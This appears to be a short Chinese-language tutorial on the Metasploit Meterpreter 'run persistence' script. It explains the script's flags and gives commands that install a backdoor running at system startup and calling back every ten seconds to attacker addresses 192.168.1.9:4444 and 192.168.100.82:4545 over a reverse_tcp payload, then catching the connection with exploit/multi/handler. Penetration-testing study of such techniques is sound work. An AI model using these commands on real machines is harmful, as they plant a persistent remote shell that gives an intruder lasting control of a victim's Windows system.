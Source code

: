 (1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```




(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```
![](img/5.png)
，同时设置好服务端监听ip和端口。
